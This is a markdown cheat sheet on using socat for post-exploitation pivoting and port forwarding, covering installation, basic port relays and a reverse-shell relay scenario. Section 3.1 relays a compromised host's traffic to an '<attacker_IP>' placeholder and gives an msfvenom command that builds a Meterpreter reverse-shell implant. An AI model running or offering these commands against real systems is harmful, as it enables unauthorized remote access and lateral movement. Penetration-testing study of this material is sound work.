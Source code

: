 # Socat

Search Tag(s): #post-exploitation #pivoting #port-forwarding #scenarios #cross-platform #socat

## 01 - Setup

### 1.1 - Package Manager

```
$ sudo apt install -y socat
```

You can just download the `.deb` file and extract it.

```
$ apt download socat

$ dpkg -x socat_*.deb work
```

Then you can just execute the program as it was portable.

```
$ work/usr/bin/socat -V
```

### 1.2 - Download Pre-compiled Binaries

#### 1.2.1 - Linux

```
$ wget -qO socat https://github.com/3ndG4me/socat/releases/download/v1.7.3.3/socatx64.bin && chmod 755 socat

$ curl -o socat https://github.com/3ndG4me/socat/releases/download/v1.7.3.3/socatx64.bin && chmod 755 socat
```

#### 1.2.2 - Windows

Download the pre-compiled binary in command prompt.

```
C:\> certutil -urlcache -split -f https://github.com/3ndG4me/socat/releases/download/v1.7.3.3/socatx64.exe socat.exe

C:\> curl -o socat.exe https://github.com/3ndG4me/socat/releases/download/v1.7.3.3/socatx64.exe
```

Download the pre-compiled binary in PowerShell.

```
PS C:\> Invoke-WebRequest https://github.com/3ndG4me/socat/releases/download/v1.7.3.3/socatx64.exe -OutFile socat.exe
```

### 1.3 - Compile

#### 1.3.1 - Linux

```
$ git clone https://github.com/3ndG4me/socat.git && \
cd socat && ./configure && make && make install
```

#### 1.3.2 - Windows

TODO: Fill this info

## 02 - Usage

### 2.1 - Open Two Listening Ports

```
> socat -v tcp-listen:<local_PORT_1> tcp-listen:<local_PORT_2>
```

### 2.2 - Redirect Port

```
> socat tcp-listen:<local_PORT>,reuseaddr tcp-connect:<target_IP>:<target_PORT>
```

### 2.3 - Bridge Two Hosts

```
> socat -v tcp-connect:<target_IP_1>:<target_PORT_1>,reuseaddr tcp-connect:<target_IP_2>:<target_PORT_2>
```

## 03 - Scenarios

### 3.1 - Port Forward Reverse Shell

```
> socat tcp4-listen:<pivot_PORT>,fork tcp4:<attacker_IP>:<attacker_PORT>
```

Generate a reverse shell with the IP address of the compromised machine to pivot from.

```
userware@hackware-os:~$ msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<pivot_IP> lport=<pivot_PORT> -f exe -o implant.exe
```

### 3.2 - Bind Web Server Port

```
> socat tcp-listen:8443,reuseaddr tcp-connect:<webserver_IP>:443
```

Then use `curl` to check connect to the pivot server.

```
userware@hackware-os:~$ curl -k https://<pivot_IP>:8443
```

---
## References

### Github

- [3ndG4me: Socat Source Repository](https://github.com/3ndG4me/socat)

- [runsisi: Socat Source Repository](https://github.com/runsisi/socat)

- [InternalAllTheThings: Network Pivoting Techniques](https://swisskyrepo.github.io/InternalAllTheThings/redteam/pivoting/network-pivoting-techniques/)

- [Ironhackers: Port Forwarding Cheatsheet](https://ironhackers.es/en/cheatsheet/port-forwarding-cheatsheet/)

- [Certcube: Pivoting Port Forwarding](https://blog.certcube.com/pivoting-port-forwarding/)

- [Artkond Pivoting Guide](https://artkond.com/2017/03/23/pivoting-guide/)

- [SlayerLabs: Tunneling Quick Guide](https://posts.slayerlabs.com/tunneling-quick-guide/)

- [SevenLayers: Socat Reverse Shell Relay](https://sevenlayers.com/index.php/blog/500-socat-reverse-shell-relay)

- [CyberSec Wikimandine: Socat](https://amandinegh.gitbook.io/cyberadventure/internal/pivoting-tunneling-and-port-forwarding/socat)